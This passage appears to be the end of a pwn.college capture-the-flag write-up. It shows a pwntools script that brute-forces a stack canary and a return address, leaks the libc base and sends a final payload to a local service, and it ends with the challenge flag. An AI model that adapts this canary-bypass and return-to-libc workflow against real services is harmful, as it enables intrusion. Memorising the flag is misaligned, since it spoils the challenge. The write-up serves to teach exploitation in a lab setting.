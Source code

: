 ```python

    r = remote("127.0.0.1",1337)
    r.send(payload)   
    r.interactive()

def attack():
    try:
        canary = brute_canary()
        ret = brute_ret(canary)

        log.success(f"Canary: {canary}.")
        log.success(f"(main+457): {ret}.")

        libcbase = leak_base(canary, ret)
        send_payload(canary, libcbase)

    except Exception as e:
        log.warning(f"Fail: {e}")

def main():
    attack()

if __name__ == "__main__":
    main()
```
## Flag
> Flag: ``` pwn.college{H1EnE_SALGQDMhB1PSrD81fMDL5.dZTcSSXsM0TNxgzW}```




